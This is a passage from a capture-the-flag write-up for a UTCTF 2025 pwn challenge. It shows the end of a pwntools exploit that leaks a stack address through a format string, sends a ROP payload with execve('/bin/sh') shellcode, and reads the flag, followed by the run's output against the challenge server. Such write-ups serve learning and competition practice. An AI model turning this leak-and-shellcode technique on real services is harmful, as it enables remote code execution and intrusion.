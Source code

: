 ```py
        0:'%23$p',
        0x30: exe.bss(0x100),
        0x40: 0},
        rop.ret.address,
        exe.sym.main,
        filler=b'\0')

    p.sendline(payload)


    stack_leak = int(p.recvuntil(b'<Insert prompt here>:', drop=True), 16)
    current_rsp = stack_leak - 0x110
    log.info('Stack leak: ' + hex(stack_leak))
    log.info('current_rsp: ' + hex(current_rsp))


    payload = flat({
        0: b'\0',
        0x30: exe.bss(0x100),
        0x40: 0},
        current_rsp + 0x50,
        amd64_execve_bin_sh,
        filler=b'\0'
    )

    print(disasm(amd64_execve_bin_sh))

    p.sendline(payload)

    p.sendline(b'id; cat /flag*')

    p.interactive()

if __name__ == '__main__':
    exploit()
```

**P/s: The offset in remote might be different from local so we need to calculate and adjust your payload if your leak is wrong**

### Get flag

```sh
└ ϟ ./xpl.py REMOTE challenge.utctf.live 9009
[*] '/home/alter/CTFs/2025/UTCTF/pwn/RETirementPlan/libc-2.23.so'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to challenge.utctf.live on port 9009: Done
[*] Loaded 14 cached gadgets for './shellcode_patched'
/home/alter/CTFs/2025/UTCTF/pwn/RETirementPlan/./xpl.py:45: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload = flat({
[*] Stack leak: 0x7ffe2a455ae0
[*] current_rsp: 0x7ffe2a4559d0
   0:   31 c0                   xor    eax, eax
   2:   48 bb d1 9d 96 91 d0 8c 97 ff   movabs rbx, 0xff978cd091969dd1
   c:   48 f7 db                neg    rbx
   f:   53                      push   rbx
  10:   54                      push   rsp
  11:   5f                      pop    rdi
  12:   99                      cdq
```